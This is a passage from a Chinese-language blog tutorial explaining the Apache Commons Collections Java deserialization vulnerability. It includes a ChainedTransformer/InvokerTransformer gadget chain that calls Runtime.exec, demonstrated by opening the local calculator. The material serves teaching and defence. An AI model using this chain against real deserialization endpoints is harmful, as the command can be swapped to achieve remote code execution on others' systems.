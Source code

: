 至此，我们知道可以利用InvokerTransformer来调用外部命令了，那是不是只需要把一个我们自定义的InvokerTransformer序列化成字符串，然后再反序列化，接口实现远程命令执行：

![][5]

先将transformer对象序列化到文件中，再从文件中读取出来，并且执行其transform方法，就实现了攻击。

#### 你以为这就完了？

但是，如果事情只有这么简单的话，那这个漏洞应该早就被发现了。想要真的实现攻击，那么还有几件事要做。

因为，`newTransformer.transform(Runtime.getRuntime());`这样的代码，不会有人真的在代码中写的。

如果没有了这行代码，还能实现执行外部命令么？

这就要利用到Commons Collections中提供了另一个工具那就是ChainedTransformer，这个类是Transformer的实现类。

**ChainedTransformer类提供了一个transform方法，他的功能遍历他的iTransformers数组，然后依次调用其transform方法，并且每次都返回一个对象，并且这个对象可以作为下一次调用的参数。**

![][6]

那么，我们可以利用这个特性，来自己实现和`transformer.transform(Runtime.getRuntime());`同样的功能：

     Transformer[] transformers = new Transformer[] {
        //通过内置的ConstantTransformer来获取Runtime类
        new ConstantTransformer(Runtime.class),
        //反射调用getMethod方法，然后getMethod方法再反射调用getRuntime方法，返回Runtime.getRuntime()方法
        new InvokerTransformer("getMethod",
            new Class[] {String.class, Class[].class },
            new Object[] {"getRuntime", new Class[0] }),
        //反射调用invoke方法，然后反射执行Runtime.getRuntime()方法，返回Runtime实例化对象
        new InvokerTransformer("invoke",
            new Class[] {Object.class, Object[].class },
            new Object[] {null, new Object[0] }),
        //反射调用exec方法
        new InvokerTransformer("exec",
            new Class[] {String.class },
            new Object[] {"open /Applications/Calculator.app"})
    };
    
    Transformer transformerChain = new ChainedTransformer(transformers);
    

在拿到一个transformerChain之后，直接调用他的transform方法，传入任何参数都可以，执行之后，也可以实现打开本地计算器程序的功能：

![][7]

那么，结合序列化，现在的攻击更加进了一步，不再需要一定要传入`newTransformer.transform(Runtime.getRuntime());`这样的代码了，只要代码中有 `transformer.transform()`方法的调用即可，无论里面是什么参数：

![][8]

#### 攻击者不会满足于此

但是，一般也不会有程序员会在代码中写这样的代码。

那么，攻击手段就需要更进一步，真正做到"不需要程序员配合"。


 [1]: https://www.hollischuang.com/archives/5177
 [2]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944480560097.jpg
 [3]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944485613275.jpg
 [4]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944494651843.jpg
 [5]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944505042521.jpg
 [6]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944497629664.jpg
 [7]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944539116926.jpg
 [8]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944538564178.jpg
 [9]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944509076736.jpg
 [10]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944537562975.jpg
 [11]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944519240647.jpg
 [12]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944537014741.jpg
 [13]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944526874284.jpg
 [14]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944525715616.jpg
 [15]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944525999226.jpg